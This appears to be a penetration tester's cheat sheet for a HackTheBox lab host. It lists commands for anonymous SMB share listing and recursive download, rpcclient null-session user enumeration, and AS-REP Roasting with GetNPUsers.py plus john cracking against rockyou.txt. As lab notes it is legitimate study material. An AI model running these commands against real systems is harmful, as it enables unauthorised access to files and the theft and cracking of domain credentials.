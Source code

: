 ### SMB :
       smbclient -U "" -L //<ip>         ->  -L flag Get a list of shares available on a host
       smbcleint -U "" //<ip>            ->  Connects to our users shares
 
       smb: \> recurse on               ->  Recursively list the contents
       smb: \> ls
       
       mget                             ->  Downloads file
       
       smbget -R smb://<ip>/path/ -U "" -> -R flag recursive download smbfiles owned by -U
       
### rpcclient:
      rpcclient -U "" -N 10.10.10.161
      commands:
               enumdomusers
               queryuser
### AS-REP Roasting:
      ./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt
      john --wordlist=/usr/share/wordlists/rockyou.txt hash
